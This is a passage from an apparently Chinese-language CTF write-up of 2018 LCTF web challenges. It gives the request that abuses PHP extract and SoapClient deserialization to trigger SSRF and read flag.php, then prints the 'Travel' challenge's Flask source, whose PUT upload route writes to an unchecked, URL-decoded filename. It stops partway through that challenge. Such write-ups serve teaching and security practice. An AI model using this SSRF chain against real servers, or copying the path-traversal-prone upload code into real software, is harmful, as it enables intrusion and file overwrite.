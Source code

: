 就可以看到，这里将`|`后面的反序列化字符串，反序列化成了一个`Soap`类

要触发`Soap`的SSRF，还得需要触发它的`__call`方法，这样我们就可以尝试利用`extract`覆盖掉变量`$b`
去调用一个不存在的方法，就会触发SSRF

```
http://172.81.210.82/?f=extract&name=Soapclient

b=call_user_func
```

这样，就可以让Soap带上自己的Cookie去访问flag.php，再次刷新页面，就可以看到flag了

![](2018-lctf-web-学习篇\4.png)

# Travel

## 题解

自己一开始做的时候也是万脸懵逼，不知道干嘛。题目一开始就给了源码

```python
# -*- coding: utf-8 -*-

from flask import request, render_template
from config import create_app
import os
import urllib
import requests
import uuid

app = create_app()

@app.route('/upload/<filename>', methods = ['PUT'])
def upload_file(filename):
    name = request.cookies.get('name')
    pwd = request.cookies.get('pwd')
    if name != 'lctf' or pwd != str(uuid.getnode()):
        return "0"
    filename = urllib.unquote(filename)
    with open(os.path.join(app.config['UPLOAD_FOLDER'], filename), 'w') as f:
        f.write(request.get_data(as_text = True))
```